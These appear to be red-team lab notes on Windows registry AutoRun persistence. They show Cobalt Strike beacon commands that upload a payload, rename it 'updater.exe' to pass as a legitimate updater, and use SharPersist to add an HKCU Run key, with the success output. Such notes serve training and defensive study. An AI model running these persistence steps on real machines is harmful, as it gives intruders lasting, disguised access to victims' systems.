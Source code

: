 
AutoRun values in HKCU and HKLM allow applications to start on boot. You commonly see these to start native and 3rd party applications such as software updaters, download assistants, driver utilities and so on.

```powershell
# adding registry persistence key
# before doing thios I had to create http_x64.exe
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\http_x64.exe
beacon> mv http_x64.exe updater.exe
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add

mv http_beacon_dc2_x64.exe notupdater.exe
C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\notUpdater.exe" -a "/q /n" -k "hkcurun" -v "NotUpdater" -m add
[*] INFO: Adding registry persistence
[*] INFO: Command: C:\ProgramData\Updater.exe
[*] INFO: Command Args: /q /n
[*] INFO: Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
[*] INFO: Registry Value: Updater
[*] INFO: Option: 
[+] SUCCESS: Registry persistence added
```

Where:

- `-k` is the registry key to modify.
- `-v` is the name of the registry key to create.

  

As before, you can test this by rebooting the VM.
```shell

  It's a common misconception that an HKLM autorun will execute the payload as SYSTEM, but this is not the case.  An HKCU autorun will only trigger when the owner of the hive logs into the machine.  An HKLM autorun will trigger when any user logs into the machine, but it will still run under the context of the user's account.
```

`Two beacons are expected to spawn in Attacker Desktop Cobalt Strike sessions, we now have the Startup Folder persistence as well as the registry AutoRun`

### Proof that both beacons are working upon signing in and out of the machine.


![[Testing both persistence methods.png]]